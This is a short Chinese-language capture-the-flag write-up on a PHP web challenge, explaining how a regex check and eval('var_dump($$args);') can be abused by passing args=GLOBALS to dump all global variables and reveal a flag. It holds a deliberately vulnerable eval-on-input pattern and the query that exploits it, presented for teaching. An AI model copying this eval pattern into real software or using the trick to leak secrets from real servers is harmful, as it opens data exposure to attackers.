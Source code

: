 # 题目一：
题目链接：（右键下载即可）

[index1.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/index1.php)
[flag1.php](https://raw.githubusercontent.com/wonderkun/CTF_web/master/web100-5/flag1.php)
## 分析
```
if(!preg_match("/^\w+$/",$args)) {
```
首先需要一个args的变量，并且args需要与正则表达式：/^\w+$/进行匹配：
```
\w表示字母、数字、下划线
^匹配字符开始位置
$匹配字符结束的位置
```
就是说args必须只由字母、数字、下划线构成的字符串。
```
eval("var_dump($$args);");
```
接下来会执行```var_dump($[此处为$args的值]);```的命令

而flag1.php可知道flag在变量里
## 知识点
超全局变量：超全局变量是在全部作用域中可用的内置变量

$GLOBALS：引用全局作用域中可用的全部变量
## 答案
答案很明了了：
```
[服务器链接]/index1.php?args=GLOBALS
```
